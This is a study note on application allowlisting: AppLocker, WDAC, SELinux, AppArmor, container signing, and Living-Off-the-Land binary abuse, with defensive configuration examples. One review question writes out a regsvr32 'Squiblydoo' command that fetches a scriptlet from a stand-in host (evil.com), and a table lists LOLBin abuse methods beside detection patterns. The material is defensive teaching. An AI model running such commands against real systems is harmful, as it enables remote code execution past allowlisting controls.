

# 🚦 Application Control and Allowlisting

> [!abstract] TL;DR
> Application control restricts which programs can execute on a system. **Allowlisting** (default-deny) only permits approved applications — the most effective endpoint security control, stopping 85%+ of malware. **AppLocker** enforces rules by path/publisher/hash in user-mode. **WDAC** (Windows Defender Application Control) enforces in kernel-mode with signed policies — tamper-resistant even against admins. On Linux: **SELinux** provides mandatory access control via policy-defined confined domains; **AppArmor** provides profile-based path control. The Achilles heel: **LOLBins** — approved Windows-native binaries that attackers abuse for code execution.

---

## Intuition — Analogy First

Blocklisting is a nightclub with a **banned list**: everyone gets in unless their name is on the banned list. Problem: you can't know every troublemaker in advance.

Allowlisting is a nightclub with a **VIP list**: the only people who get in are the ones explicitly on the approved list. Everyone else is turned away by default. This is far more secure — the club owner controls exactly who enters — but it requires much more up-front work to build and maintain the list.

The LOLBins problem is like a known troublemaker who shows up in a waiter's uniform (a legitimate Windows binary). They're on the "allowed" list by virtue of their outfit, but they're going to cause trouble once inside.

---

## How It Works

### Allowlisting vs Blocklisting



**Blocklisting** (traditional AV) fails against:
- Zero-day malware (not yet in database)
- Polymorphic malware (changes hash)
- LOLBins (legitimate binary being abused)
- Fileless malware (no binary to blocklist)

**Allowlisting** blocks all of the above because nothing runs unless explicitly approved — but implementation requires comprehensive knowledge of all legitimate applications.

---

### Windows AppLocker

AppLocker (Group Policy → Computer Configuration → Security Settings → Application Control Policies) creates allow/deny rules based on:

| Rule Type | Mechanism | Example |
|-----------|----------|---------|
| **Publisher** | Certificate signature | Allow anything signed by "O=Microsoft Corporation, OU=MOPR" |
| **Path** | File system path | Allow `C:\Program Files\*`, deny `C:\Users\*\AppData\*` |
| **Hash** | SHA-256 file hash | Allow specific version of a tool by hash |

```xml
<!-- AppLocker GPO export snippet -->
<AppLockerPolicy Version="1">
    <RuleCollection Type="Exe" EnforcementMode="Enforced">
        <!-- Allow everything under Program Files (Microsoft signed) -->
        <FilePublisherRule Id="..." Action="Allow" UserOrGroupSid="S-1-1-0">
            <Conditions>
                <FilePublisherCondition PublisherName="O=MICROSOFT CORPORATION" 
                    ProductName="*" BinaryName="*" />
            </Conditions>
        </FilePublisherRule>
        
        <!-- Block executables from user-writable locations -->
        <FilePathRule Id="..." Action="Deny" UserOrGroupSid="S-1-1-0">
            <Conditions>
                <FilePathCondition Path="%APPDATA%\*" />
            </Conditions>
        </FilePathRule>
        <FilePathRule Id="..." Action="Deny" UserOrGroupSid="S-1-1-0">
            <Conditions>
                <FilePathCondition Path="%TEMP%\*" />
            </Conditions>
        </FilePathRule>
    </RuleCollection>

    <!-- Also apply to scripts, MSI, DLL, Packaged apps -->
    <RuleCollection Type="Script" EnforcementMode="Enforced"> ... </RuleCollection>
    <RuleCollection Type="Msi" EnforcementMode="Enforced"> ... </RuleCollection>
</AppLockerPolicy>
```

**AppLocker limitation**: runs in user-mode as a service (AppIDSvc). An attacker with admin rights can disable AppIDSvc. Blocked in audit mode if service is stopped. Not enforced for kernel-mode execution paths.

---

### WDAC (Windows Defender Application Control)

WDAC is the successor to AppLocker for kernel-mode enforcement. Policies are:
- Signed by Microsoft certificate (cannot be modified by local admin)
- Enforced via Hyper-V Virtualization Based Security (VBS) — even a compromised kernel cannot disable it
- Applied to both user-mode and kernel-mode code (drivers, bootloader)

```powershell
# Create a WDAC policy from existing trusted installers
$PolicyPath = "$env:USERPROFILE\Desktop\WDACPolicy.xml"

# Start with a baseline (allow Windows components + WHQL drivers)
New-CIPolicy -Level Publisher -FilePath $PolicyPath `
    -UserPEs -Fallback Hash

# Add organizational applications
Merge-CIPolicy -PolicyPaths $PolicyPath, "C:\CustomApps\AppPolicy.xml" `
    -OutputFilePath $PolicyPath

# Convert to binary
ConvertFrom-CIPolicy -XmlFilePath $PolicyPath `
    -BinaryFilePath "$env:USERPROFILE\Desktop\WDACPolicy.bin"

# Deploy via Intune or copy to:
# C:\Windows\System32\CodeIntegrity\SIPolicy.p7b

# Check WDAC status
Get-CIPolicy -BinaryFilePath "C:\Windows\System32\CodeIntegrity\SIPolicy.p7b"
```

| Feature | AppLocker | WDAC |
|---------|----------|------|
| Enforcement layer | User-mode service | Kernel-mode (VBS) |
| Admin bypass | Yes (stop AppIDSvc) | No (VBS protection) |
| Covers kernel-mode code | No | Yes |
| Policy signing | Not required | Required for highest protection |
| Audit mode | Yes | Yes |
| Windows version | Server 2008 R2+ / Win 7+ | Windows 10 1703+ |

---

### Linux: SELinux

SELinux (Security-Enhanced Linux) implements **Mandatory Access Control (MAC)** in the kernel. Every process runs in a **security context** (label), and policy rules define which contexts can access which resources.

```bash
# Check SELinux status
sestatus
# SELinux status: enabled
# SELinuxfs mount: /sys/fs/selinux
# Current mode: enforcing    ← enforcing vs permissive vs disabled

# View context of a file
ls -Z /etc/shadow
# system_u:object_r:shadow_t:s0  /etc/shadow

# View context of a process
ps -eZ | grep nginx
# system_u:system_r:httpd_t:s0   1234 ?  00:00:00 nginx

# Key rule: httpd_t (nginx) can read httpd_sys_content_t files
# but NOT shadow_t files (enforced by policy, not just file permissions)

# List SELinux booleans (toggleable policy settings)
getsebool -a | grep httpd
# httpd_can_network_connect: off
# httpd_can_connect_ldap: off

# Allow httpd to make network connections (e.g., to backend)
setsebool -P httpd_can_network_connect on

# Check denials (AVC = Access Vector Cache)
ausearch -m avc -ts today | tail -20

# Generate policy from audit log
audit2allow -a -M custom_nginx_policy
semodule -i custom_nginx_policy.pp
```

**SELinux contexts:** `user:role:type:level` (MLS)
- **Type Enforcement (TE)** — most commonly used: `httpd_t` (nginx process) can only access `httpd_sys_content_t` (web content directories)
- **Confined domains** — each service runs in a restricted domain with minimum necessary permissions
- **Transition rules** — define how a process spawning another changes context (privilege escalation prevention)

---

### Linux: AppArmor

AppArmor provides **path-based MAC** — simpler than SELinux, profile-based:

```bash
# Check AppArmor status
aa-status

# View nginx profile
cat /etc/apparmor.d/usr.sbin.nginx

# Example AppArmor profile for nginx
/usr/sbin/nginx {
    # Include standard abstractions
    #include <abstractions/base>
    #include <abstractions/nameservice>
    #include <abstractions/openssl>

    # Allow read access to web content
    /var/www/html/** r,
    /etc/nginx/** r,
    
    # Allow nginx to write to log files
    /var/log/nginx/*.log w,
    
    # Allow network access
    network inet tcp,
    network inet6 tcp,
    
    # Deny everything else
}

# Profile modes
aa-enforce /usr/sbin/nginx    # Enforcing: blocks violations
aa-complain /usr/sbin/nginx   # Complain: logs violations, allows action (test mode)
aa-audit /usr/sbin/nginx      # Audit: logs all accesses

# Generate profile from scratch
aa-genprof /usr/sbin/myapp    # Interactive profile generation
```

| | SELinux | AppArmor |
|--|---------|---------|
| **Access control model** | Label-based (context) | Path-based (file path) |
| **Default distribution** | RHEL, CentOS, Fedora, Android | Ubuntu, Debian, SUSE |
| **Complexity** | High — policy writing is complex | Low — profiles are human-readable |
| **Granularity** | Fine-grained (all resources) | Coarser (filesystem paths) |
| **Performance impact** | Moderate | Low |
| **Bypass resistance** | High (kernel-level, context survives rename) | Lower (path-based: rename bypasses profile) |

---

### Container Image Signing (cosign)

For cloud-native environments, application control extends to container images:

```bash
# Sign an image with cosign (Sigstore)
cosign sign --key cosign.key ghcr.io/myorg/myapp:v1.2.3

# Verify signature before running
cosign verify --key cosign.pub ghcr.io/myorg/myapp:v1.2.3

# Kubernetes admission controller (Kyverno) — policy to require signed images
# kyverno-policy.yaml:
# rules:
#   - name: check-image-signature
#     match:
#       resources: { kinds: [Pod] }
#     verifyImages:
#       - imageReferences: ["ghcr.io/myorg/*"]
#         attestors:
#           - entries:
#             - keyless:
#                 rekor: { url: "https://rekor.sigstore.dev" }
```

---

### LOLBins and Why Allowlisting Doesn't Fully Stop Them

**LOLBins (Living Off the Land Binaries)** are Microsoft-signed Windows binaries on the allowlist by default:

| Binary | Signed By | Attacker Use | Detection Approach |
|--------|----------|-------------|-------------------|
| `certutil.exe` | Microsoft | Download + decode base64 payloads | Certutil with `-urlcache` flag; network connection from certutil |
| `mshta.exe` | Microsoft | Execute HTA (HTML Application) with VBScript | mshta.exe child processes; network connections |
| `rundll32.exe` | Microsoft | Execute custom DLL export function | rundll32 with unusual arguments |
| `regsvr32.exe` | Microsoft | "Squiblydoo" — COM scriptlet from URL | regsvr32 with `/i:http://` |
| `wscript.exe` | Microsoft | Execute VBScript files | wscript executing from temp directories |
| `msiexec.exe` | Microsoft | Install malicious MSI from URL | msiexec with remote URL |

**Mitigation:** Even though these binaries must be on the allowlist (they're needed for Windows operations), **EDR behavioural rules** can detect abuse patterns:
- certutil making network connections
- mshta.exe spawned by Office processes
- rundll32.exe with command-line arguments pointing to temp directories

---

## Trade-offs

| Control | Security Level | Operational Overhead | Bypass Risk | Prerequisites |
|---------|--------------|---------------------|-------------|--------------|
| AppLocker (audit mode) | Low (no enforcement) | Low | Total | AppIDSvc running |
| AppLocker (enforce, publisher rules) | High | Medium | Admin bypass | Application inventory |
| WDAC (signed policy) | Very High | Very High | LOLBins | VBS-capable hardware |
| SELinux (enforcing) | Very High | High | Low | Policy expertise |
| AppArmor (enforce) | High | Medium | Path rename | Profile per app |
| Container signing | Medium (supply chain) | Medium | Image layer confusion | Signing infrastructure |

---

## Implementation Challenges

1. **Application inventory first** — You cannot allowlist what you don't know. Start with a comprehensive discovery of all executables before enabling enforcement mode.
2. **Test in audit mode for 4+ weeks** — AppLocker and WDAC audit mode logs what *would* be blocked without actually blocking. Review logs before enforcing.
3. **Service and task accounts** — Scheduled tasks, service accounts, and deployment tools (Ansible, SCCM) often run executables outside standard paths. These need explicit rules.
4. **Patch management coordination** — Every software update potentially changes hashes. Publisher-based rules (sign by cert) are more maintainable than hash-based rules.

---

## Common Pitfalls

1. **Allowlisting only .exe, not .dll, .ps1, .msi** — AppLocker and WDAC must cover all rule collections (Exe, Script, MSI, DLL, Package apps). Attackers pivot to PowerShell scripts if only .exe is controlled.
2. **Publisher rules too broad** — "Allow everything signed by Microsoft" includes mshta.exe, wscript.exe, and all LOLBins. Publisher rules should be scoped to specific applications.
3. **Not protecting the AppLocker service** — AppLocker depends on AppIDSvc. Attackers with admin rights can stop it. Pair AppLocker with WDAC or restrict access to service management.
4. **SELinux disabled by default on new servers** — Many Linux admins disable SELinux for convenience (`setenforce 0` or `SELINUX=disabled`). Enforce a policy that SELinux is always in enforcing mode via configuration management.
5. **No response to LOLBin alerts** — Installing application control without EDR detection rules for LOLBin abuse leaves a significant gap.

---

## Related Concepts

- [[Endpoint_Security_Overview|← Endpoint Security Overview]] — application control in the defence-in-depth stack
- [[Antivirus_and_EDR|← Antivirus & EDR]] — EDR detects LOLBin abuse that allowlisting misses
- [[OS_Hardening|← OS Hardening]] — WDAC/AppLocker configured during hardening
- [[_MOC_Endpoint_Security|↑ Endpoint Security MOC]]

---

## Review Questions

1. Explain why WDAC provides stronger security guarantees than AppLocker, even when both are configured with identical allow rules. What specific attack would defeat AppLocker but fail against a properly deployed WDAC with signed policy?
2. A penetration tester is on a system with AppLocker enforced. All executables in `C:\Users\` are blocked. They find they can run `regsvr32.exe /s /n /u /i:http://evil.com/payload.sct scrobj.dll`. Why does AppLocker not block this? What additional control would?
3. Compare SELinux and AppArmor for a Linux web server running nginx and PostgreSQL. Which would you choose and why? Describe the specific policy rules you would write for nginx.

---

## Sources

- Microsoft WDAC documentation: https://docs.microsoft.com/en-us/windows/security/threat-protection/windows-defender-application-control/
- LOLBAS Project: https://lolbas-project.github.io/
- NSA/CISA: Cybersecurity Information Sheet — Application Allowlisting
- Red Hat SELinux documentation: https://access.redhat.com/documentation/en-us/red_hat_enterprise_linux/9/html/using_selinux/
- AppArmor documentation: https://gitlab.com/apparmor/apparmor/-/wikis/home

#Cybersecurity #AppLocker #WDAC #SELinux #AppArmor #ApplicationControl #Allowlisting #LOLBins #endpoint-security
